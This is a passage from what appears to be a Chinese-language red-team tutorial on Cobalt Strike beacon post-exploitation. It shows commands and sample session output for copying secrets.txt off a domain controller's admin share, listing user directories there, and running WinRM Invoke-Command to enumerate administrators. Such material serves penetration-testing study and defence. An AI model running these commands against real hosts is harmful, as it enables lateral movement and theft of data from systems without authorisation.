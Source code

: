 **复制文件**

比如运行下面的命令将 `secrets.txt`文件复制到当前目录。

```powershell
shell copy \\host\C$\foo\secrets.txt
```

```powershell
beacon> shell copy \\WinDC\C$\foo\secrets.txt
[*] Tasked beacon to run: copy \\WinDC\C$\foo\secrets.txt
[+] host called home, sent: 93 bytes
[+] received output:
已复制         1 个文件。
```

**查看文件列表**

比如运行下面的命令。其中 /S 表示列出指定目录及子目录所有文件，/B 表示使用空格式，即没有标题或摘要信息。

```powershell
shell dir /S /B \\host\C$
```

```powershell
beacon> shell dir /S /B \\WinDC\C$\Users
[*] Tasked beacon to run: dir /S /B \\WinDC\C$\Users
[+] host called home, sent: 67 bytes
[+] received output:
\\WinDC\C$\Users\administrator
\\WinDC\C$\Users\Classic .NET AppPool
\\WinDC\C$\Users\Daniel
\\WinDC\C$\Users\Public
\\WinDC\C$\Users\administrator\Contacts
\\WinDC\C$\Users\administrator\Desktop
\\WinDC\C$\Users\administrator\Documents
\\WinDC\C$\Users\administrator\Downloads
\\WinDC\C$\Users\administrator\Favorites
……内容过多，余下部分省略……
```

**使用 WinRM 运行命令**

WinRM 运行在 5985 端口上，WinRM 是 Windows 远程管服务，使用 WinRM 可以使远程管理更容易一些。

如果想利用 WinRM 运行命令则可以使用下面的命令。

```powershell
powershell Invoke-Command -ComputerName TARGET -ScriptBlock {command here}
```

```powershell
beacon> powershell Invoke-Command -ComputerName WinDC -ScriptBlock { net localgroup administrators}
[*] Tasked beacon to run: Invoke-Command -ComputerName WinDC -ScriptBlock { net localgroup administrators}
[+] host called home, sent: 303 bytes
[+] received output:
别名     administrators
注释     管理员对计算机/域有不受限制的完全访问权
成员
-------------------------------------------------------------------------------
Administrator
Domain Admins
Daniel
Enterprise Admins
命令成功完成。
```
